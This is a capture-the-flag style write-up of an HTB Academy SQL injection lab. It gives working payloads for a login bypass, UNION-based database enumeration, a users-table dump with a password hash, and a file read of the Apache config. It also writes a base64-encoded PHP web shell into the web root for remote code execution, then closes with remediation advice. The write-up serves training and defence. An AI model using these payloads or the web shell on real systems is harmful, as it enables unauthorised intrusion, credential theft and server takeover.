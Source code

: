 # ✅ HTB Academy – Skill Assessment Write-Up
**Module:** SQL Injection Fundamentals  
**Assessment Objective:** Perform a grey-box assessment to identify and exploit SQL injection vulnerabilities, with a focus on demonstrating the real-world impact such as remote code execution (RCE).

---

## 🧭 Initial Recon – Login Page Enumeration

Upon loading the target IP, I was presented with a login form. I began testing for SQL injection using classic authentication bypass payloads.

### ❌ Attempted (unsuccessful) payloads:
```
Username: user' OR '1'='1
Password: pass' OR '1'='1
```
I also tested URL-encoded equivalents (e.g. `%27`) with no success.

### ✅ Successful authentication bypass:
```
Username: user' OR '1'='1'--
```
This payload commented out the password check and successfully bypassed authentication. I was redirected to a payroll dashboard, confirming SQL injection was present in the login logic.

---

## 🔍 Discovery – Column Count and Backend Info

The dashboard featured a search bar—likely tied to the SQL backend. I used **UNION-based injection** to determine the column structure.

### ✅ Column Count Enumeration:
```
' UNION SELECT 1,2,3,4,5-- 
```
Five columns were confirmed when the numbers rendered in the table.

### ✅ Backend System Version:
```
' UNION SELECT 1,2,@@version,4,5-- 
```
**Result:** `10.3.22-MariaDB-1ubuntu1` — indicating MariaDB running on Linux.

---

## 🗃️ Database and Table Enumeration

### ✅ List of Databases:
```
' UNION SELECT 1,2,SCHEMA_NAME,4,5 FROM INFORMATION_SCHEMA.SCHEMATA--
```
**Discovered:**  
- `information_schema`  
- `mysql`  
- `performance_schema`  
- `ilfreight`  
- `backup`

### ✅ Confirm Current Database:
```
' UNION SELECT 1,2,DATABASE(),4,5--
```
**Result:** `ilfreight`

---

## 📦 Tables and Columns

### ✅ Table Enumeration (ilfreight):
```
' UNION SELECT 1,TABLE_NAME,TABLE_SCHEMA,4,5 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='ilfreight'--
```
**Tables:** `payment`, `users`

### ✅ Column Enumeration:
```
' UNION SELECT 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,5 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA='ilfreight'--
```

**payment**: `id`, `name`, `month`, `amount`, `tax`  
**users**: `id`, `username`, `password`

---

## 🔐 Extracting Sensitive Data

### ✅ Dump Users Table:
```
' UNION SELECT 1,username,password,4,5 FROM ilfreight.users--
```
**Example result:**  
- `adam` : `1be9f5d3a82847b8acca40544f953515`

---

## ⚠️ Privilege Escalation via SQL

### ✅ Identify Current SQL User:
```
' UNION SELECT 1,USER(),3,4,5--
```
**Result:** `root@localhost`

### ✅ Enumerate Privileges:
```
' UNION SELECT 1,grantee,privilege_type,4,5 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"--
```
**Privileges Granted:** Full access including `FILE`, `CREATE`, `DROP`, `EXECUTE`, `SHUTDOWN`, and more.

---

## 📁 File Access & Web Root Discovery

### ✅ Read Apache Config:
```
' UNION SELECT 1,LOAD_FILE('/etc/apache2/apache2.conf'),3,4,5--
```

---

## ❌ Initial RCE Attempt Failed

Attempted writing a shell directly:
```
' UNION SELECT 1,2,'<?php system($_REQUEST[0]); ?>',4,5 INTO OUTFILE '/var/www/html/test.txt'--
```
**Error:** `Permission denied`

Confirmed `@@secure_file_priv` was unset, but `/html` not writable.

---

## ✅ RCE Achieved via Base64 Payload

### ✅ Encode Shell:
```
echo -n '<?php system($_REQUEST[0]); ?>' | base64
```
**Result:**
```
PD9waHAgc3lzdGVtKCRfUkVRVUVTVFswXSk7ID8+
```

### ✅ Inject via SQL:
```
' UNION SELECT 1,2,FROM_BASE64('PD9waHAgc3lzdGVtKCRfUkVRVUVTVFswXSk7ID8+'),4,5 INTO OUTFILE '/var/www/html/dashboard/shell.php'--
```

### ✅ Final Access:
```
http://TARGET_IP/dashboard/shell.php?0=whoami
```
**Result:** `www-data`  
Used `?0=ls ../../../../../` and `?0=cat ../../../../../flag*.txt` to retrieve the flag.

---

## 🧠 Lessons Learned

- Encoded payloads (e.g., Base64) can bypass input transformation issues.
- Real-world bypasses often depend on understanding *how* data is parsed, validated, and executed.
- Valid syntax isn’t enough—path, permissions, and behavior are key.

---

## 🔐 Remediation Recommendations

1. **Use Prepared Statements** – Avoid dynamic SQL at all costs.
2. **Enforce Least Privilege** – Never allow applications to use `root` or admin-level DB accounts.
3. **Restrict Dangerous Privileges** – Disable `FILE`, `EXECUTE`, `SUPER` unless absolutely required.
4. **Validate and Sanitize Input** – Sanitize across all inputs (login, search, uploads).
5. **Enable `secure_file_priv`** – Restrict file writing to safe, isolated locations.
6. **File System Permissions** – Ensure DB users cannot write to web root directories.
7. **Use WAFs** – Add a Web Application Firewall to block known injection patterns.

---

**Assessment Completed:** {date.today().strftime('%B %d, %Y')}  
**Analyst:** Jordan Davis
